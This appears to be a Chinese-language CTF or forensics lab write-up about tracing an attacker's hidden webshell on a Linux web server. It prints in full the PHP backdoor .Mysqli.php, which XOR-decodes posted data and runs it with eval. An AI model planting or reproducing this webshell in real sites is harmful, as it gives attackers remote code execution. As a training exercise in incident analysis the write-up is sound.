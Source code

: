 ## 三、flag3

**黑客使用的什么工具的shell github地址的md5 flag{md5}**
那既然说黑客隐藏shell了，那我们肯定需要用到命令ls -la进行查找；
然后发现在挨个查找的过程中发现.Mysqlli.php如果普通的ls查看目录是查不出来的，必须用到ls -la才行，所以它就是隐藏了，我们直接定位一些它的路径，进行MD5加密即可；
这里看到一个Db文件夹，然后进去查发现一个.Mysqli.php文件，cat打开一下发现是一个后门文件。
![[Pasted image 20250319205049.png]]

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

然后pwd一下看一下现在的绝对路径：

```php
root@ip-10-0-10-5:/var/www/html/include/Db# pwd
/var/www/html/include/Db
root@ip-10-0-10-5:/var/www/html/include/Db# 
```

然后就确定文件的绝对路径：

```
/var/www/html/include/Db/.Mysqli.php
```
